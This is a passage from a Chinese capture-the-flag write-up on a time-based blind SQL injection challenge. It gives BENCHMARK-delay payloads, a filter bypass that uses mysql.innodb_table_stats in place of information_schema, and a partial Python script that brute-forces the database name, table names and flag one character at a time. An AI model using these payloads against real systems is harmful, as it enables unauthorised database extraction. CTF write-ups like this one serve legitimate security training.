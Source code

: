 测试payload

```
'||if((2>1),BENCHMARK(10000000,SHA1('test')),1)#
可以看到页面进入了转圈
```

![](./images/image-46.png)

剩下就写脚本就行了，由于information被过滤，使用`mysql.innodb_table_stats`来代替information\_schema

```
if((select(COUNT(*)>0)from(select/**/1/**/union/**/select*from/**/Rea11ys3ccccccr3333t)a/**/limit/**/0,1),BENCHMARK(10000000,SHA1('test')),1)
用这个来判断列数
```

完整脚本如下

```
import requests
from urllib.parse import urlencode
from time import time

url="http://80-5a7887db-128e-47a8-ab4c-dafafc7a3c95.challenge.ctfplus.cn/index.php?username="

dic="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#&'()*+,-./:;<=>?@[\]^`{|}~"

flag=''
for i in range(1,100):
    for s in dic:

        #payload=f"'||if((SUBSTR(DATABASE(),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"   database: syclover

        #payload = f"'||if((substr((select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name)like'syclover'),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"  #  table name:Rea11ys3ccccccr3333t,users

        #payload=f"'||if((substr((select(group_concat(database_name))/**/from(mysql.innodb_table_stats)where(table_name)LIKE'Rea11ys3ccccccr3333t'),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"

        #payload='||if((select(COUNT(*)>0)from(select/**/1/**/union/**/select*from/**/Rea11ys3ccccccr3333t)a/**/limit/**/0,1),BENCHMARK(10000000,SHA1('test')),1)#  只有一列

        payload=f"'||if((substr((select*from(select/**/1/**/union/**/select*from/**/Rea11ys3ccccccr3333t)a/**/limit/**/1,1),{i},1)like'{s}'),BENCHMARK(10000000,SHA1('test')),1)#"

        payload= urlencode({'': payload})[1::]
```